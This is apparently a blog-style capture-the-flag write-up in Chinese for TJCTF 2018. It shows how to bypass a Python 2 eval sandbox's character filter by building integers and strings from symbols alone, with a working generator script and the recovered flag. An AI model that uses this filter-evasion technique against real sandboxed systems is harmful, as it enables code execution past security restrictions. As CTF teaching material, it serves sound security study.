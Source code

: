 ```yaml
---
mathjax: true
title:  TJCTF2018：Mirror Mirror——一种绕过Python沙箱字符限制的方法
tag: [jail_escape]
date: 2018-08-14 19:24:11
categories: writeup
---
```


![1534248479004](1534248479004.png)

通过nc连接`problem1.tjctf.org:8004` ,题目提供一个Python交互终端。

根据题目描述 Reflection 可知与Python反射机制有关。

所谓反射机制就是能够通过向函数传入字符串参数，来操纵指定对象的类型、属性、方法和类。

> A Python script can find out about the type, class, attributes and methods of an object. This is referred to as **reflection** or **introspection**. See also [Metaclasses](https://en.wikibooks.org/wiki/Python_Programming/Metaclasses).
>
> Reflection-enabling functions include type(), isinstance(), callable(), dir() and getattr().
>
> —— https://en.wikibooks.org/wiki/Python_Programming/Reflection 

这里使用`dir()` 函数查看`get_flag` 的属性。

```python
λ nc problem1.tjctf.org 8004
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
>>> get_flag()
Traceback (most recent call last):
  File "<console>", line 1, in <module>
TypeError: get_flag() takes exactly 1 argument (0 given)
>>> get_flag('1')
1 is not a valid character
>>> get_flag('@')
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 1
    @
    ^
SyntaxError: unexpected EOF while parsing
>>> dir(get_flag)
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> dir(get_flag.func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>>
```



探索后猜测要求向`get_flag()` 函数传入一个字符串，eval执行后等于super_secret_string就会返回flag。

`48, 57, 65, 90, 97, 122, 44, 95` 应该意味着ASCII值为 48~57，65~90，97~122，44和95的字符不被允许，也就是 `[a-zA-Z0-9,_]` 被禁用了，测试一下发现确实如此。此外 `'%\xcb'` 字符串也是一个提示。

这题应该是对 [A python's escape from PlaidCTF jail](https://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) 的复现。主要目标是通过有限的字符 集 `({[<'":~%c>]}) ` 构造出任意的字符串。主要思路如下：

- `[]<{}` 逻辑值为True，等价于1；`[]<[]` 逻辑值为False，等价于0。

- 由1和0，结合按位取反`~` 和移位 `<<` 可以得到任意整数。

  ```python
  def brainfuckize(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % brainfuckize(~nb)
      else:
          return "(%s<<({}<[]))" % brainfuckize(nb / 2)
  
  
  def f(n):
      # 实际上这个函数就足够了，但生成的结果长度会比第一个长很多。
      if n == 0:
          return "([]<[])"
      return "~%s" % f(~n) if n % 2 else "(%s<<({}<[]))" % f(n / 2)
  
  
  print f(5), eval(brainfuckize(5)) == 5
  # ~(~(~(~([]<[])<<({}<[]))<<({}<[]))<<({}<[])) True
  ```

- 字符串 `%\xcb` 由`%` 和 `\xcb)` 两个字符构成。`repr('%\xcb')` 会得到一个七字符的字符串，其中包含`%` 和 `c` 。结合上面的得到的整数就可以构造任意字符了。

  ```python
  >>> for i in repr('%\xcb'):
  ...     print i,
  ...
  ' % \ x c b '
  >>> for i in `'%\xcb'`:
  ...     print i,
  ...
  ' % \ x c b '
  
  >>> `'%\xcb'`[1::3]
  '%c'
  >>> `'%\xcb'`[1::3]%97 == chr(97)
  True
  >>>
  ```

  在Python2 中 ，反引号包裹是 `repr()` 的快捷方式，效果完全一致。在Python3中反引号被废除了。

- 接下来就可以构造任意字符串并传给`get_flag()`了。

  ```python
  def bf(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % bf(~nb)
      else:
          return "(%s<<({}<[]))" % bf(nb / 2)
  
  
  def gen_single_char(c):
      return "`'%\\xcb'`[" + bf(1) + "::" + bf(3) + "]%(" + bf(ord(c)) + ")"
  
  
  secret = "this_is_the_super_secret_string"
  cmd = 'get_flag("%s")' % ('+'.join(gen_single_char(i) for i in secret))
  print cmd
  # tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
  ```

![1534253889627](1534253889627.png)